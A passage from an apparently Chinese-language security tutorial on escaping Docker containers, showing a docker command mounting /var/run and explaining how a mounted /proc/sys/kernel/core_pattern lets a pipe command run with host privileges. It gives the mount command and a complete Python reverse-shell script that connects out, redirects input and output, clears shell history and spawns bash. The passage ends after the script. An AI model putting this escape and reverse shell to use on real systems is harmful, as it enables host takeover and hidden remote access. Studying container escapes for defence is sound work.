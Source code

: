 ```bash
docker run -it -v /var/run/:/
```

[![](assets/1706845681-400d6848fc7a915e54fb70bcc2711120.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240131232320-aa4a9eec-c04c-1.png)

## 挂载/proc

linux 的/proc 是一个伪文件系统，当容器启动时将/proc 目录挂载到容器内部时就可以实现逃逸

`/proc/sys/kernel/core_pattern`文件是负责进程奔溃时内存数据转储的，当第一个字符是`|`管道符时，后面的的部分会以命令行的方式进行解析并运行，并且由于容器共享主机内核的原因，这个命令是以宿主机的权限运行的。

由于管道符的原因，错误的数据可能会扰乱我们的命令，因此这里用 python 接受并且忽略错误数据。

```bash
docker run -it -v /proc/sys/kernel/core_pattern:/host/proc/sys/kernel/core_pattern ubuntu
```

找到当前容器在宿主机下的绝对路径：

[![](assets/1706845681-a3408615714ab982983487ef614aaca1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240131232455-e35a818e-c04c-1.png)

创建一个反弹 shell 的 python 脚本：

```bash
#!/usr/bin/python3
import  os
import pty
import socket
lhost = "127.0.0.1"
lport = 2333
def main():
   s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
   s.connect((lhost, lport))
   os.dup2(s.fileno(), 0)
   os.dup2(s.fileno(), 1)
   os.dup2(s.fileno(), 2)
   os.putenv("HISTFILE", '/dev/null')
   pty.spawn("/bin/bash")
   s.close()
if __name__ == "__main__":
   main()
```

